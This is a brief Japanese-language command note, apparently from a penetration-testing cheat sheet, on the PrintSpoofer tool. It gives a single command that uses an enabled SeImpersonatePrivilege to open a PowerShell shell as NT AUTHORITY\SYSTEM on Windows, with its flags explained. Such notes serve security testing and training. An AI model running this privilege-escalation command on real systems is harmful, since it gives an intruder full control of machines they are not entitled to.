 # PrintSpoofer

## コマンド集

1. SeImpersonatePrivilegeが有効なとき、NT AUTHORITY|SYSTEMでシェルを取得する。  
   -i => 現在のプロセスと現在のセッションで対話する。  
   -c => 引数にpowershell.exeを入力して実行するコマンドを指定する。
```
.\PrintSpoofer64.exe -i -c powershell.exe
```